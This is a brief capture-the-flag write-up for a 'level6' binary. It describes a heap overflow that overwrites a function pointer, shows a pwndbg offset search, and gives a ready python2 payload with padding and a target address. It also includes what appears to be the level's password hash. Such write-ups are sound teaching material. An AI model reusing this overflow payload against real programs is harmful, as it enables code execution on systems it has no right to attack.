 level6:d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

malloc(64) =  argv[1] -> `0x0804a008`
malloc(4) = function called at the end -> `0x0804a050`

We must overwrite malloc(4) = `0x0804a050` with value `0x08048468` by the address of the function n = `0x08048454`

```
pwndbg> cyclic -l uaaa
Finding cyclic pattern of 4 bytes: b'uaaa' (hex: 0x75616161)
Found at offset 72
```

`$(python2 -c 'print "A" * 72 + "\x54\x84\x04\x08"')`